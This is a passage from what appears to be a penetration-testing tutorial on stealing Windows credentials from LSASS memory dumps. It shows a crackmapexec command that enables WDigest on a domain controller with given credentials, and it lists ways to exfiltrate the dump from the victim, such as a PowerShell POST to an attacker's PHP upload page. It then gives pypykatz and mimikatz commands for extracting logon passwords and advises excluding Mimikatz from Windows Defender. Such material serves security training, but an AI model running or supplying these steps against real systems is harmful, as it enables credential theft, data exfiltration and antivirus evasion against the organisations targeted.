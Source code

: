 | 1 2 3 4  | └─\$ crackmapexec smb 192.168.x.x -u 0xhav0c -p 'Password123!' -M wdigest -o action=enable SMB 192.168.x.x 445 DC [\*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:secybr.com) (signing:True) (SMBv1:True) SMB 192.168.x.x 445 DC [+] secybr.com\\0xhav0c:Password123! (Pwn3d!) WDIGEST 192.168.x.x 445 DC [+] UseLogonCredential registry key created successfully  |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Moving Dump Files to Attacker Device

Once you have the dump file, you can transfer it to the device where you can use mimikatz in many ways.

-   You can copy paste with RDP.
-   You can mount your disk to that device before sending the RDP connection.
-   You can create a simple PHP page, configure it to accept file uploads to this address, and transfer the file to yourself with a POST request with Powershell on the victim device.
-   If the victim has python on the device, you can create a simple web page by using the http-server module.
-   Or you can upload it to an upload site that comes to mind first and get it from there.

Examining Dump Files

Method 1 - Examining Dump Files Using pypkatz

| 1  | └─\$ pypykatz lsa minidump lsass.DMP  |
|----|---------------------------------------|

![Examining dump files using pypkatz (Since the output is long, it is shared to the terminal.)](media/6b3eb1c6772e8c9934aae88661558b7f.png)Examining dump files using pypkatz (Since the output is long, it is shared to the terminal.)

Method 2 - Examining Dump Files using mimikatz.exe

After obtaining the dump file, download Mimikaz on a windows device that belongs to you.

Make sure to create an exception folder for Windows Defender on the machine where you are using Mimikatz, otherwise Defender Mimikatz will quarantine your executable. Run Mimikatz.

Use the following commands to extract the credentials from your LSASS Dump file:

| 1 2  | sekurlsa::minidump lsass.DMP sekurlsa::logonPasswords  |
|------|--------------------------------------------------------|

